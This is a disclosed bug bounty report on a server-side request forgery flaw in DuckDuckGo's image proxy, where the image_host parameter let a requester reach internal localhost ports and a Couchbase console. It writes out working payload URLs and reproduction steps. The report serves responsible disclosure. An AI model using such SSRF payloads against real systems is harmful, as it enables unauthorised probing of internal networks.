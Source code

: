 # SSRF in proxy.duckduckgo.com via the image_host parameter

## Report Details
- **Report ID**: 358119
- **URL**: https://hackerone.com/reports/358119
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-05-27T15:39:32.113Z
- **Disclosed**: 2018-08-15T14:46:32.647Z

## Reporter
- **Username**: fpatrik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: duckduckgo

## Vulnerability Information
# Description

https://proxy.duckduckgo.com/iur/ endpoint is vulnerable to ssrf via image_host
get parameter.

## Vulnerable URL:
https://proxy.duckduckgo.com/iur/?f=1&image_host=https://tudomanyok.hu/

## Some internal URL:
https://proxy.duckduckgo.com/iur/?f=1&image_host=https://127.0.0.1:18091/
http://127.0.0.1:9998/
http://127.0.0.1:8092/
http://127.0.0.1:8091/

The only restriction that is there must be a http:// or https:// before the URL so you can't go with ssh://

# How to reporduce

1. Go to one of the internal urls and you will see that there is something (some url is only visible with view-source)
2. The best example is the  http://127.0.0.1:18091/ one if you will visit: view-source:https://proxy.duckduckgo.com/iur/?f=1&image_host=https://127.0.0.1:18091/ui/ that there is something called couchebase console. (only visible in view-source)

These are I think internal web ports because I wasn't able to go to these ports from the external proxy.duckduckgo.com url.

## Impact

Attacker can scan your internal network, finding internal port, and internal web applications

The hacker selected the **Server-Side Request Forgery (SSRF)** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**Can internal services be reached bypassing network access control?**
Yes

**What internal services were accessible?**
http://127.0.0.1:9998/
http://127.0.0.1:8092/
http://127.0.0.1:8091/
https://127.0.0.1:18091/
...

**Security Impact**
I was possible to reach internal services, however I didn't tested that is that important or not (because i didn't want to violate any law)



## Attachments
- ssrf.png
- ssrf3.png
